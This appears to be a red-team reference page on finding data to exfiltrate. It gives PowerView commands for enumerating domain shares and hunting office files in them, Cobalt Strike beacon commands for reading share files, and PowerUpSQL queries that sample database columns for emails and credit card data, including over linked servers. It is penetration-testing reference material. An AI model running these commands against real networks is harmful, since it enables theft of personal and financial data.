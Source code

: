 ```yaml
---
title: Exfiltration
category: 00 - Red Team
order: 16
---
```


Organizations will store data in a wide variety of places from file shares, databases, SharePoint, internal wiki's, etc...

> **Note**: When planning the assessment, a good strategy to suggest is to create dummy data. It is not recommended to carry out exfiltration tests with real data (Problems with GDPR).

# File Shares

We can search for shares on a domain.

* PowerView (dev):
```powershell
Find-DomainShare 
Find-DomainShare -CheckShareAccess
```

`Find-InterestingDomainShareFile` searches inside each share, and returns results where the specified strings appears.

* PowerView (dev):
```powershell
Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
```

Finally we can download it:

```
beacon> powershell gc \\share.corp.io\share\export.csv | select -first 5
```

# Databases

`PowerUpSQL` provides various cmdlets designed for data searching and extraction.

`Get-SQLColumnSampleDataThreaded` can search one or more instances for databases that contains particular keywords in the column names.

```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```

This can only search the instances where we have direct access, it will not try any SQL link. To search over the links use `Get-SQLQuery`.

```
 beacon> powershell Get-SQLQuery -Instance "sql-2.corp.local,1433" -Query "select * from openquery(""sql-1.external.local"", 'select * from information_schema.tables')"
```